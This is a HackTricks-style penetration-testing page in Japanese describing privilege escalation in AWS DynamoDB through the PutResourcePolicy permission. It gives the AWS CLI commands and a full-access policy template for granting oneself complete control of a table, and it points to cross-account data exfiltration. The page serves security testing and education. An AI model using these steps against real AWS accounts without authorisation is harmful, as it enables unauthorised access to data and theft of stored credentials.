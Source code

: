# AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

dynamodbに関する詳細情報は、以下を確認してください：

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy` とオプションで `dynamodb:GetResourcePolicy`

2024年3月以降、AWSはDynamoDBに対して*リソースベースのポリシー*を提供しています（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

したがって、テーブルに対して`dynamodb:PutResourcePolicy`を持っている場合、テーブルへの完全なアクセス権を自分自身または他の任意のプリンシパルに付与できます。

`dynamodb:PutResourcePolicy`をランダムなプリンシパルに付与することは、管理者が`dynamodb:Put*`を付与することでそのプリンシパルがデータベースにアイテムを追加できるだけだと考える場合や、2024年3月以前にその権限セットを付与した場合に、しばしば偶然に発生します...

理想的には、他の潜在的に重要な権限を上書きせず、必要な追加の権限のみを注入するために、`dynamodb:GetResourcePolicy`も持っているべきです：
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
現在のポリシーを取得できない場合は、テーブルに対してあなたのプリンシパルに完全なアクセスを付与するこのポリシーを使用してください：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
もしカスタマイズが必要な場合、すべての可能なDynamoDBアクションのリストは次のとおりです: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。また、リソースベースのポリシーを介して許可されるすべてのアクションのリスト *およびこれらのうちどれがクロスアカウントで使用できるか（データの流出を考えてください！）*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

さて、ポリシードキュメント `policy.json` が準備できたら、リソースポリシーを設定します:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
今、必要な権限を持っているはずです。

### ポストエクスプロイテーション

私の知る限り、AWSの`dynamodb`権限を持っているだけで権限を昇格させる直接的な方法は**他にありません**。テーブルから**機密情報**を**読み取る**ことができ（AWSの認証情報を含む可能性があります）、テーブルに**情報を書き込む**ことができます（これにより、lambdaコードインジェクションなどの他の脆弱性が引き起こされる可能性があります）が、これらのオプションはすでに**DynamoDBポストエクスプロイテーションページ**で考慮されています：

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: データストリームを悪用してデータを読む

{{#include ../../../banners/hacktricks-training.md}}
